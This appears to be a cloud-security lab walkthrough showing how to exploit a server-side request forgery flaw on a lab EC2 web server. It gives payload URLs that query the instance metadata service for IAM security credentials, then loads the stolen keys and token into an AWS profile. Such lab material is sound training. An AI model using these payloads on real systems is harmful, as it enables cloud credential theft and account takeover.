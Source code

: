 1.  From the console, locate the ec2 instance that was provisioned. 


<br />
<br />
2.  In a seperate browser window, navigate to the public IP address of the ec2 instance.  

You can find the public IP by clicking on the instance, and going to `Details`, then `Public IPv4 address`.

<b> ** Make sure that you change the url to use http, as that is how we have configured our security group. ** </b>

```script 
 http://<public_ipv4_address>/
```

We can see that the web server is running, but it looks like it's expecting a query string.  We need to construct an SSRF payload.


<br />
<br />
3.  First, let's look at some of the metadata categories available:  

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
```

These are all categories of information that the ec2 instance would be able to access during it's day to day actions.


<br />
<br />
4.  By navigating through the API structure, we can eventually get to credentials.  Paste each url into your browser to work through the API directory structure.   
<br />
<br />
<b> Variables Required </b>  
{Instance-Profile} - The instance profile name will be unique to each environment.  This will be the value listed under `security-credentials`.

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/

 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
 
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
```

<br />
<br />
5.  These are the credentials of the instance profile that is being used by the ec2 instance.  By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  

Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called `ssrf-demo`.  
<br />

In order to do this, open your aws credential file in a text editor.  By default, credential files are stored in the following places:   
    - Windows: `C:\Users\username\.aws\credentials`  
    - Linux: `~/.aws/credentials`

Create a new entry called `ssrf-demo`.  

<b> Variables Required </b>  
- {AccessKeyId} - The Access key as found in the browser window.
- {SecretAccessKey} - The Secret Access key, as shown in the browser
- {Token} - The Token value, as shown in the browser
<br />
<br />
```script
    [ssrf-demo]
    aws_access_key_id = ${AccessKeyId}
    aws_secret_access_key = ${SecretAccessKey}
    aws_session_token = ${Token}
```